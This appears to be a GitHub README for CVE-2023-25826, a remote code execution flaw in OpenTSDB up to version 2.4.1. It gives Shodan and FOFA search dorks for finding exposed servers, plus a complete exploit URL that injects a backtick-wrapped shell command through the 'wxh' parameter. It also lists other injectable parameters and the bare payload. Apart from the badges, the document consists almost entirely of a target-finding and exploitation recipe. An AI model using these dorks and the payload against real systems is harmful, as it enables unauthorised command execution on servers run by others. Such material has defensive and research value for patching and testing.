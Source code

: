# CVE-2023-25826
![](https://img.shields.io/static/v1?label=Product&message=OpenTSDB&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20Current%20Versions%20<=%202.4.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
http.favicon.hash:407286339
```
```
http.html_hash:-392672026
```
```
html:"OpenTSDB"
```

- FOFA dork:
```
icon_hash="407286339"
```

### Usage
The paramenter wxh needs some sanitation before being used by opentsdb.

See example url:
```
http://target_url:4242/q?start=2016/04/13-10:21:00&ignore=2&m=sum:jmxdata.cpu&o=&yrange=[0:]&key=out%20right%20top&wxh=1900x770%60id%60&style=linespoint&png
```
Results in RCE.

More parameters:
```
    wxh
    start
    m
    o
    key
    style
```
Payload:
```
%60id%60
```
